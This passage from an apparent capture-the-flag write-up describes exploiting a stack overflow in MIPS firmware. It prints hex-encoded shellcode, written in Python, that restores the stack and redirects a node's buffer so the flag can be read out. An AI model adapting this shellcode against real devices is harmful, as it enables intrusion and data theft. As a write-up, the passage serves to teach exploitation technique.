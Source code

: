 At the end of the vulnerable function, many saved registers (`s0` to `s8`) were restored from the stack, as well as the return address.
This allowed jumping anywhere, including on the stack where we controlled `0x500` = 1280 bytes.

But this also meant that the stack was quite corrupted after the execution of the payload.
To recover from this, all that was needed was to jump to the main loop (at `0xbfc08ed8`) with the right stack pointer `0xa00fece4`.
We used the following code to recover the stack:
```py
shellcode += bytes.fromhex("0fa01d3c")  # lui sp,0xa00f
shellcode += bytes.fromhex("e4ecbd37")  # ori sp,sp,0xece4
shellcode += bytes.fromhex("c0bf103c")  # lui s0,0xbfc0
shellcode += bytes.fromhex("d88e1036")  # ori s0,s0,0x8ed8
shellcode += bytes.fromhex("08000002")  # jr s0
shellcode += bytes.fromhex("00000000")  # nop
```

We needed to quickly check what nothing was missed.
To do this, several options were possible:

* enabling the debug logs in the original firmware, by calling the function that set it
* displaying the content of the flag device on the debug log

Sending the flag as a packet was tried but did not work well enough, so instead the buffer of a node was modifier to target the flag, and the flag was read back.

The exploit was then:
```py
# Make space in order not to overwrite the shellcode on the stack when calling functions
shellcode = bytes.fromhex("e8ecbd27")  # addiu sp,sp,-0x1318

# Enable debug log
shellcode += bytes.fromhex("c0bf023c")  # lui v0,0xbfc0
shellcode += bytes.fromhex("40184234")  # ori v0,v0,0x1840
shellcode += bytes.fromhex("09f84000")  # jalr v0 = 0xbfc01840 ; set_log_level(0xff)
shellcode += bytes.fromhex("ff000434")  # _ori a0,zero,0xff  (with delay slot)

# Print the flag: DBG_printf(0xff, 0xbfc09310="DEBUG::%s\n", s2=flag)
shellcode += bytes.fromhex("c0bf053c")  # lui a1,0xbfc0
shellcode += bytes.fromhex("1093a534")  # ori a1,a1,0x9310
shellcode += bytes.fromhex("25304002")  # or a2,s2,zero
shellcode += bytes.fromhex("09f8e002")  # jalr s7
shellcode += bytes.fromhex("ff000434")  # _ori a0,zero,0xff

# Find the node by handle: RRL_find_node_by_handle(RRL_ctx=0xa00fff5c, s0=handle)
shellcode += bytes.fromhex("0fa0043c")  # lui a0,0xa00f
shellcode += bytes.fromhex("5cff8434")  # ori a0,a0,0xff5c
shellcode += bytes.fromhex("25280002")  # or a1,s0,zero
shellcode += bytes.fromhex("c0bf023c")  # lui v0,0xbfc0
shellcode += bytes.fromhex("b4204234")  # ori v0,v0,0x20b4
shellcode += bytes.fromhex("09f84000")  # jalr v0 = 0xbfc020b4 = RRL_find_node_in_own_list_by_handle
shellcode += bytes.fromhex("00000000")  # nop

# Modify the buffer pointer of the node, at AP context + 0x98 + 0x10 = v0 + 0xa8
shellcode += bytes.fromhex("a80052ac")  # sw s2,0xa8(v0)

# Debug: print handle (A0111120 in real firmware, A0111158 with debug enabled)
shellcode += bytes.fromhex("ff000434")  # ori a0,zero,0xff
shellcode += bytes.fromhex("25286002")  # or a1,s3,zero ; "RRL::UL SHARED SECRET[%x%x%x%x)"
shellcode += bytes.fromhex("25304000")  # or a2,v0,zero
shellcode += bytes.fromhex("00000734")  # ori a3,zero,0x0
shellcode += bytes.fromhex("00000834")  # ori a4,zero,0x0
shellcode += bytes.fromhex("09f8e002")  # jalr s7         ; printf
shellcode += bytes.fromhex("00000000")  # nop

```